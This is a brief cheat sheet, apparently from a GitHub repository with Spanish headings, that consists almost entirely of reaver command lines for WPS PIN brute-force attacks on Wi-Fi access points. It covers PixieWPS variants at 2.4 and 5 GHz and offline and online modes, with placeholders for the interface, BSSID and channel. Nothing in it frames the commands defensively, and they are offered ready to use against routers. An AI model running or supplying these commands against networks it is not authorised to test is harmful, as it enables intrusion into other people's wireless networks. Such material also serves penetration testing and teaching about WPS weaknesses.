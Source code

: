 # Reaver Cheat Sheet

#### WPS PIN Attack
```
reaver -i <INTERFACE> -b <BSSID-AP>
```

#### WPS PIN attack usando PixieWPS a 2.4GHz
```
reaver -i <INTERFACE> -b <BSSID-AP> -vv -K
```

#### WPS PIN attack usando PixieWPS a 5GHz
```
reaver -i <INTERFACE> -b <BSSID-AP> -5 -vv -K 1
```

#### WPS PIN Attack Offline
```
reaver -i <INTERFACE> -b <BSSID-AP> -c <CHANNEL> -K -SNLAvv
```

#### WPS PIN Attack Online
```
reaver -i <INTERFACE> -b <BSSID-AP> -c <CHANNEL> -SNLAsvv -d 1 -r 5:3
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)